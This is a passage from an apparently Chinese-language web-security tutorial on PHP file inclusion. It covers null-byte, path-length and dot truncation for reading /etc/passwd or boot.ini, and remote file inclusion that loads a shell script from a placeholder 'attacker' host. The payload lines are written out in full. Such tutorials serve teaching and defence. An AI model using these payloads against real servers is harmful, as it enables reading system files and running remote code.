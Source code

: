 上述代码存在本地文件包含，可用 %00 截断的方式读取 /etc/passwd 文件内容。
## %00 截断



```powershell
?file=../../../../../../../../../etc/passwd%00
```

需要 magic_quotes_gpc=off，PHP 小于 5.3.4 有效。
## 路径长度截断

```powershell
?file=../../../../../../../../../etc/passwd/./././././././././././.
```

Linux 需要文件名长于 4096，Windows 需要长于 256。
## 点号截断

```powershell
?file=../../../../../../../../../boot.ini/………………
```

只适用 Windows，点号需要长于 256。
## 远程文件包含

远程文件包含，Remote File Inclusion，RFI。

​	

```powershell
<?php
if ($route == "share") {
  require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
  require_once $basePath . "/action/m_sharelink.php";
}
```

构造变量 basePath 的值。

```powershell
/?basePath=http://attacker/phpshell.txt?
```

最终的代码执行了

```powershell
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。

普通远程文件包含

```powershell
?file=[http|https|ftp]://example.com/shell.txt
```
